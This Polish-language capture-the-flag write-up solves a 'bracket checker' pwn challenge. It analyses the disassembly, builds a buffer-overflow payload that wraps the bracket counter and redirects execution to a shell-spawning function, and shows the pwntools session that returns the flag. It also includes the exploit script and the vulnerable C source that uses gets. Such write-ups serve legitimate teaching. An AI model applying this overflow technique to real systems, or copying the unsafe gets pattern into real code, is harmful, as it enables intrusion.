

# Nawias się musi zgadzać (pwn)
## Pts: 150

```
W ramach programu Nowoczesne Państwo uruchomiliśmy w klastrze cyberbezpieczeństwa usługę pozwalającą sprawdzić czy wyrażenie jest poprawnie onawiasowane. Sprawdź czy Twoje wyrażenia są poprawnie onawiasowane, i nie próbuj się włamywać, bo i tak Ci się to nie uda!

Program jest do pobrania stąd.

nc pwning2016.p4.team 1337

Format flagi: pwn{litery_cyfry_i_znaki_specjalne}
```
Dostajemy zapakowaną binarkę `brackets`

```
$ file brackets
brackets: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1a898791e079253916e3678874d6f13bd0054743, not stripped
```

Szybkie testowe uruchomienie:
```
$ ./brackets
Enter expression to check:
((()))))))))
Missing opening bracket!
```

Jak widać zachowuje się tak, jak się spodziewaliśmy. Szybkie wrzucenie w IDA pokazuje dość prosty schemat najbardziej interesującej funkcji:


```assembly
public check_my_brackets
check_my_brackets proc near

var_80= byte ptr -80h
var_10= qword ptr -10h
var_4= dword ptr -4

push    rbp
mov     rbp, rsp
add     rsp, 0FFFFFFFFFFFFFF80h
mov     [rbp+var_4], 0
lea     rax, [rbp+var_80]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+var_80]
mov     [rbp+var_10], rax
jmp     short loc_40069F
```

Natychmiastowo uwagę przykuwa użycie niebezpiecznej funkcji `gets`. Można się spodziewać że mamy doprowadzić do przepełnienia bufora i nadpisania adresu powrotu. Jeżeli chodzi o cel przekierowania wykonania, to twórcy zostawili nam miły prezent w postaci funkcji `shell_me` która spawnuje nam shella. Sprawdźmy więc adresy obecnej i docelowej funkcji.

```
$ readelf -s brackets

Symbol table '.symtab' contains 72 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
...
    48: 0000000000400638   143 FUNC    GLOBAL DEFAULT   14 check_my_brackets
...
    54: 00000000004005f6    66 FUNC    GLOBAL DEFAULT   14 shell_me

```

Widać że są dość blisko siebie a co lepsze nie posiadają bajtów zerowych we fragmencie który musimy nadpisać (little-endian!).

Chcielibyśmy już teraz nadpisać adres powrotu ale dalsza analiza pokazuje że to nie zadziała. Zwróćmy uwagę na to w jaki sposób kończy się nasza funkcja.



Tylko poprawne zakończenie (skrajnie prawy blok) algorytmu prowadzi do powrotu, w przeciwnym razie uruchamiany jest `exit` więc podmiana adresu nic nie da. Problemem jest 32-bitowa zmienna `var_4` która reprezentuje bilans nawiasów otwierających i zamykających. Żeby algorytm stwierdził że nawiasowanie jest poprawne to w szczególności na końcu musi ona wynosić 0. ~~Nie możemy po prostu wkleić bajtów zerowych w payload bo `gets` tego nie wczyta~~ (EDIT: Jednak się myliłem, `gets` bez problemu czyta bajty zerowe. W każdym razie wersja bez bajtów zerowych jest często wymagana, więc opłaca się poćwiczyć różne sposoby). Trik polega na tym że oprócz nadpisania surowej wartości bilans możemy jeszcze potem zmodyfikować podając nawiasy. Plan jest prosty - ustawmy bilans na `INT_MAX` i podajmy jeden nawias, żeby przekręcił się na 0.

Payload będzie miał następujący schemat
```
'(' + FF * ??? + F60540 + '\n'
```

Znak zmiany linii zostanie zamieniony na bajt zerowy, więc adres będzie się zgadzał.


Bufor jest pod adresem `rbp-128`, po drodze jest jeszcze stare `rbp` (8 bajtów) więc potrzebujemy paddingu na 136 bajty, po tym już jest adres powrotu. Zatem ostateczny payload wygląda następująco:
```
b'(' + b'\xFF'*135 + '\xF6\x05\x40'
```

Enter możemy sami wcisnąć.
Teraz czas przetestować na zdalnym serwerze.

```python
>>> from pwn import *
>>> conn = remote("pwning2016.p4.team", 1337)
>>> conn.send("(\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xf6\x05\x40")
>>> conn.interactive()
[*] Switching to interactive mode
Enter expression to check:
(^E@
whoami
brackets
ls
brackets  brackets.c  exploit.py  flag
cat flag
pwn{b1n4ry_expl01t1ng}
```

## BONUS 

Dump reszty plików!

`exploit.py`

```python
exploit = ''.join(["()" for i in range(62)])+"\x00\x00\x00\x00AAAAAAAA\xf6\x05\x40\x00"

from pwn import *

r = process('./brackets')
r.recvline()
r.sendline(exploit)
r.interactive()
```

`brackets.c`

```c
#include <stdlib.h>
#include <stdio.h>

#define FAIL(s) printf(s), exit(1)

void shell_me()
{
        char *filename = "/bin/sh";
        char *argv [2] = {filename, NULL};
        char *envp [1] = {NULL};
        execve(filename, argv, envp);
}

void check_my_brackets()
{
    int level = 0;
        char str[100];

        gets(str);
        for(char* s = str;*s;++s)
        {
                if(*s == '(')
                        level++;
                if(*s == ')')
                {
                        level--;
                        if(level < 0)
                                FAIL("Missing opening bracket!\n");
                }
        }

        if(level)
                FAIL("Missing closing bracket!\n");
        return;
}

int main()
{
        printf("Enter expression to check:\n");
        check_my_brackets();
        printf("Correct!\n");
        return 0;
}
```